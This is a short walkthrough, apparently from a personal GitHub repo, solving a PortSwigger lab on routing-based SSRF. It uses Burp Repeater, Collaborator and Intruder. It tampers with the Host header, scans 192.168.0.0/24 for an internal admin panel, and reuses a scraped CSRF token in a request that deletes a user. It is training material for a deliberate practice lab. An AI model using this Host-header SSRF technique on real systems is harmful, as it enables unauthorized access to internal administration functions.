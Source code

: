 # SSRF via flawed request parsing

## This lab is vulnerable to routing-based [SSRF](https://portswigger.net/web-security/ssrf) due to its flawed parsing of the request's intended host. You can exploit this to access an insecure intranet admin panel located at an internal IP address.

## To solve the lab, access the internal admin panel located in the `192.168.0.0/24` range, then delete Carlos.

### step1

send Homepage into repeter

![screenshot](./images/lab5_homepage_repeter.png)

### step2

change host url
eg. change net to com

![screenshot](./images/lab5_homepage_change_host.png)

### step3

add GET request `https://0ac6008603da820a815ce42800d200c5.web-security-academy.net/`

![screenshot](./images/lab5_add_url_directly_to_home_page.png)

### step4

add host from burp collaborator

![screenshot](./images/lab5_burp_collaborator_to_home_page.png)

### step5

send ### step4 to intruder
add host `192.168.0.0`
payload number
0 to 255 ### step1
start attack

![screenshot](./images/lab5_attacking_result_intruder.png)

![screenshot](./images/lab5_response_from_intruder.png)

### step6

add
host: `192.168.0.12` is /admin response

![screenshot](./images/lab5_add_admin_into_get_request.png)

### step7

from ### step6 right click request in browser current session
client error

![screenshot](./images/lab5_client_error_forbidden.png)

### step8

from ### step6
in response you will see

```html
                   </header>
                    <form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
                        <input required type="hidden" name="csrf" value="g1WAHTPf0JSymLWkKMLNxxwbN3lo99uc">
                        <label>Username</label>
                        <input required type='text' name='username'>
                        <button class='button' type='submit'>Delete user</button>

```

![screenshot](./images/lab5_response_page_from_step_6.png)

### step9

add csrf token and user name into get request
`csrf=g1WAHTPf0JSymLWkKMLNxxwbN3lo99uc&username=carlos `
_GET https://0ac6008603da820a815ce42800d200c5.web-security-academy.net/admin/delete?&csrf=g1WAHTPf0JSymLWkKMLNxxwbN3lo99uc&username=carlos HTTP/2_
send request lab solved

![screenshot](./images/lab5_csrf_token_homepage_to_repeter.png)
